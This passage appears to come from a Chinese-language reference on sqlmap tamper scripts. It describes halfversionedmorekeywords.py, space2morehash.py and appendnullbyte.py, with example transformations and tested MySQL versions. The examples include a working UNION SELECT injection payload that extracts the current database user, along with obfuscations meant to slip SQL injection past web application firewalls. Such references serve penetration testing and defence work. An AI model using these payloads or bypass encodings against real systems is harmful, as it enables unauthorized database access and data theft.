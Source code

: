 *   Oracle 10g

*   PostgreSQL 8.3, 8.4, 9.0

## 脚本名：halfversionedmorekeywords.py

* * *

作用：当数据库为 mysql 时绕过防火墙，每个关键字之前添加 mysql 版本评论

```
Example:

("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"

```

Requirement:

*   MySQL < 5.1

Tested against:

*   MySQL 4.0.18, 5.0.22

## 脚本名：space2morehash.py

* * *

作用：空格替换为 #号 以及更多随机字符串 换行符

```
Example: 

* Input: 1 AND 9227=9227 

* Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 

```

Requirement: * MySQL >= 5.1.13 Tested

against: * MySQL 5.1.41

案例一:[91ri 一篇文章](http://www.91ri.org/5411.html)

## 脚本名：appendnullbyte.py

* * *

作用：在有效负荷结束位置加载零字节字符编码

```
Example: ('1 AND 1=1') '1 AND 1=1%00' 

```
